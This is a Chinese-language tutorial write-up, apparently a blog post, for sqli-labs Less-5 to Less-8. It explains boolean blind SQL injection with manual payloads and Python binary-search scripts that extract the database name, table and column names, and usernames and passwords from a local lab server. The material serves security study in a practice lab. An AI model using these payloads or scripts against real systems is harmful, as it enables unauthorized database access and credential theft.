








# sqli-labs五到八关——基本的布尔盲注流程及其脚本
## 关于布尔盲注
在sqli-labss的Less-5至Less-8中，页面不会回显数据库信息，如果语句正确会显示You are in……，语句错误则会报错。这种显示（真）/不显示（假）的状态符合布尔盲注的条件，可以用盲注的思路解决。


整体上布尔盲注依然遵循数据库-表-字段的顺序，但在具体环节通常分为三个阶段：猜长度-猜字符-换位置。因为页面不会直接回显信息，所以要通过页面状态来确定猜测是否正确。  
常用到如下sql函数
```sql
length(str) --返回字符长度 
substr(str,pos,len) --截取字符串
mid(str,pos,len) --同substr，有时用于绕过过滤
ascii(char) --字符转换为ASCII码
ord(char) --同ascii，用于特殊字符集
```
此外，由于盲注需要精确到具体的某个字符，所以需要规范化，如
```sql
limit 1 , 1 --跳过前1条数据，然后取1条数据
substr((select table_name from ......)) --在SQL语言中，当一个select查询语言被嵌套在另一个函数里当参数时，必须用括号括起来，称为子查询。
```
## Less-5
大致思路和前四关一致，只是把爆名的环节用判断替代。提供两种思路，一种用limit，一种用group_concat。有两种思路的原因是通常一个库、表格其中包含了多个表格、字段，用group_concat可以将所有内容连接在一起，省去了修改limit初始量的步骤。缺点是MySQL的group_concat最多显示1024个字节，如果数据量过大，超出部分会被截断。

后端如下

### limit
```sql
?id=1' and length(database())>8--+   
数据库长度
?id=1' and ascii(substr(database(),1,1))>115 --+   
数据库名
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema = database() limit 0,1),1,1 ))>100 --+   
表格名，懒得再求表格名长度了，直接控制偏移量试过去
?id=1' and ascii(substr((select column_name from information_schema.columns where table_name = 'users' limit 0,1),1,1))>100 --+
字段名
?id=1' and ascii(substr((select group_concat(id,username,password) from users),1,1))>50 --+
具体信息
```
### group_concat
```sql
?id=1'and length((select database()))>8--+        
数据库长度
?id=1' and ascii(substr(database(),1,1))>115 --+      
数据库名
?id=1' and length((select group_concat(table_name) from information_schema.tables where table_schema = 'security'))>13 --+  
?id=1' and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema = database()),1,1))>100 --+
表格名
?id=1' and length((select group_concat(column_name) from information_schema.columns where table_name = 'users'))>10 --+
?id=1' and ascii(substr((select group_concat(column_name) from information_schema.columns where table_name = 'users'),1,1))>100 --+
字段名
?id=1' and ascii(substr((select group_concat(id,username,password) from users),1,1))>50 --+
具体信息
```
### 脚本
无论是上述哪种方法，手工注入的时间复杂度都太高，所以考虑用脚本实现上述功能。这里以数据库名获取为例。
```python
import requests

url = "http://localhost/sqli/Less-5/"
flag_text = "You are in"

def get_database_name():
    print("start to get database name")
    result_name=""   

    # 基于二分法
    # 通过手工注入已知数据库名字长度为8
    for i in range(1,9):

        # 32-126为可见字符范围
        low = 32
        high = 126
        mid = 0

        while low < high:
            mid = (low + high) // 2

            # 构建payload，这里注释符不要写成--+，requests库会自动编码，导致PHP收到的是--+而非-- 。
            payload = f"1' and ascii(substr(database(),{i},1))>{mid} #"

            # 发送请求 
            try:
                res = requests.get(url,params={"id": payload})
            except Exception as e:
                print(f"something went wrong:{e}")
                break

            # 判断逻辑
            if flag_text in res.text:
                low = mid + 1
            else:
                high = mid

        if low == 32:
            break

        # chr()函数把ASCII数字转回字符
        result_name += chr(low)
        print(f"now name:{result_name}")

    print(f"{result_name}")

if __name__ == "__main__":
    get_database_name()
```


后续步骤都可以通过修改payload来实现。中间步骤就不写了。
```python
import requests

url = "http://localhost/sqli/Less-6"
flag_text = "You are in..........."

def get_database_name():
    print("[-] start to get information")
    result_name = ""
    sql_code=f"(select concat(id,username,0x3a,password) from users limit 0,1)"
    
    for i in range(1,21):
        low = 32
        high = 126
        mid = 0
        while low < high:
            mid = (low + high)//2
            
            #猜数据库名
            payload = f""" 1" and ascii(substr({sql_code},{i},1))>{mid} #"""
            try:
                res = requests.get(url,params={"id":payload})
            except Exception as e:
                print(f"请求报错:{e}")
                break
            
            if flag_text in res.text:
                low=mid+1
            else:
                high = mid
        if low==32:
                break
            
        result_name += chr(low)
        print(f"[+] 最终结果:{result_name}")

if __name__ == "__main__":
    get_database_name()
```

## Less-6
后端如下


将单引号换成双引号即可。
## Less-7
后端如下


双括号加单引号闭合。
## Less-8
后端如下


和Less-5的区别是这道题不会回显错误信息，属于比较纯粹的盲注，不能用报错注入的方法解决。其余步骤和Less-5一样。